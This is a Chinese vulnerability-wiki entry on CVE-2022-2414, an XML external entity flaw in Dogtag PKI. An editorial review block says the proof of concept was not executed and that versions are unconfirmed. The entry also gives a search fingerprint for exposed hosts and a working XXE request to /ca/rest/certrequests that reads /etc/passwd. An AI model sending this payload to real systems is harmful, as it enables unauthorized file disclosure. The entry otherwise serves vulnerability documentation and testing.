

# Dogtag PKI XML实体注入漏洞 CVE-2022-2414

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Dogtag PKI证书请求服务
- 本文讨论：CVE-2022-2414
- 版本、权限与配置前提：XML解析外部实体开启、ca/rest/certrequests可达；未给版本/鉴权
- 资料类型：XXE请求复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 影响版本只有产品名，无法区分发行包与补丁
- HTTP请求行缺协议和Host属片段；XML声明写成注释但不必然阻止解析，应标示意
- 读取结果仅截图，未给错误反射/回显机制和原始公告

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- CVE官方根因、匿名访问及实体响应待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

```
Dogtag PKI
```

## 网络测绘

```
title="Identity Management"
```

## 漏洞复现

登录页面


验证POC

```
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
